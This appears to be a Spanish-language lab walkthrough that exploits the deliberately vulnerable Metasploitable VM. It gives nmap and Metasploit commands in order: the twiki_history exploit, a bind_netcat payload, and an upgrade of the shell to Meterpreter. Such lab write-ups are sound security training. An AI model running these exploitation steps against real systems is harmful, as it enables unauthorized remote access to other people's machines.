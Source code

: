 #Linux:
  Acerca de:
    -La máquina virtual Metasploitable es una versión intencionalmente vulnerable de Ubuntu Linux diseñada para probar herramientas de seguridad y demostrar vulnerabilidades comunes.

  Buscar vulnerabilidades:
    -Para ello tendremos que usar la herramienta nmap con la que tendremos que poner "nmap -O 192.168.1.10" 192.168.1.10 es la ip que tenermos en la maquina a la cual vamos a atacar 
                                                                                                    
                                                                                                  
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/190cde79-3c47-46d6-bf70-7bd082a6fa75)

-Iniciaremos la herramienta “metasploit framework”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Después usaremos la herramienta twiki con el comando “use exploit/unix/webapp/twiki_history” en la que tendremos si podemos atacar al puerto que nos interese identificar con el comando “show options”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/ce0918a2-a729-44a7-ba80-33201418d83c)


Indicaremos cual es nuestro objetivo con el comando “set rhosts 192.168.1.10”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/f9c339eb-9c92-41d4-9fa8-5ce7741075f4)
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3dbcbd54-3ea7-4570-9b2b-55cc43f3f22a)


 

Para continuar tendremos que usar los siguientes comandos “set payload cmd/unix/bind_netcat”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3403d27e-5900-4edf-a465-3b93fb1944e6)


 
Tendremos que crear una sesión con “exploit -j” y veremos si se ha creado con “sessions -l”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/fe13f062-4730-4f5d-9a18-cdc48dc267bb)


Tendremos que usar los siguientes comandos “use post/multi/manage/shell_to_meterpreter”, “set sessions 2” y “exploit”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/6b9ecb6b-f268-4db5-b4f0-6a81a3d6c2a0)


Ya podemos entrar en la maquina objetivo con el comando “sessions -i 3” y haremos un “ifconfig para confirmar si hemos entrado bien”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/71e9be85-3d5b-4099-b7b7-d8681aec1284)

